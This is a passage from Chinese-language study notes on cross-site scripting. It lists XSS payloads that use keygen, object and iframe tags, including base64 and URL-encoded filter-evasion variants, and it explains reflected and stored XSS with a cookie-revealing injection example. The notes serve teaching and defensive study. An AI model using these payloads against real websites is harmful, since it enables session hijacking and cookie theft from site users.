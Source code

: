 - **keygen标签**

  ```html
  <keygen/onfocus=prompt(1);>
  <keygen onfocus=javascript:alert(1) autofocus>
  ```

- **object标签**

  ```html
  <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
  
  base64
  编码：PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg    
  解码：<script>alert(1)</script>
  ```

- **iframe标签**

  ```html
  <IFRAME width%3d"420" height%3d"315" frameborder%3d"0" onload%3d"alert(document.cookie)"><%2fIFRAME>
  <iframe%2fsrc%3d"data%3atext%2fhtml%3b%26Tab%3bbase64%26Tab%3b,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg%3d%3d">
  <iframe srcdoc%3d'%26lt%3bbody onload%3dprompt%26lpar%3b1%26rpar%3b%26gt%3b'>
  ```

## 分类

### 反弹型 XSS（非持续型）

过程：参数x=xss 发包 => 携带该参数执行index.php（XSS在前端执行）=> 回包

反射型 XSS 是指恶意的<u>攻击脚本包含在 **URL** 中</u>，<u>只有当用户主动访问了包含恶意脚本的 URL，脚本才会被成功执行</u>。反射型的攻击，**攻击脚本不会写入网站的数据库，是一次性的攻击**，所以黑客一般需要诱骗用户点击包含攻击脚本的 URL（钓鱼邮件），才能攻击成功。

比如在get请求中构造攻击语句，输出用户在该网站的cookie：

`?name="><script>alert(document.cookie)</script>`（name参数为数值的话就不加引号）

该语句输出到页面的HTML就变为：

```
<input type="text" name="name" value=""><script>alert(document.cookie)</script>">
```

![image-20220728163239269](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220728163239269.png)

### 存储型 XSS（持续型）

过程：参数x=xss 发包 => 携带该参数执行index.php => XSS被写入数据库 => 他人访问页面执行index.php => 回包（XSS在前端被执行） 

存储型 XSS 则是<u>把攻击脚本提交到网站 **后台数据库**，只要有人访问了显示该数据内容的页面，就会被攻击</u>。存储型XSS又称持久型XSS，**攻击脚本将被永久地存放在目标服务器的数据库或文件中**，可能存在于一些我们信任的网站，具有很高的隐蔽性。

攻击方式：这种攻击<u>多见于论坛、博客和留言板</u>，攻击者在发帖的过程中，将恶意脚本连同正常信息一起注入帖子的内容中。随着帖子被服务器存储下来，恶意脚本也永久地被存放在服务器的后端存储器中。当其他用户浏览这个被注入了恶意脚本的帖子时，恶意脚本会在他们的浏览器中得到执行。
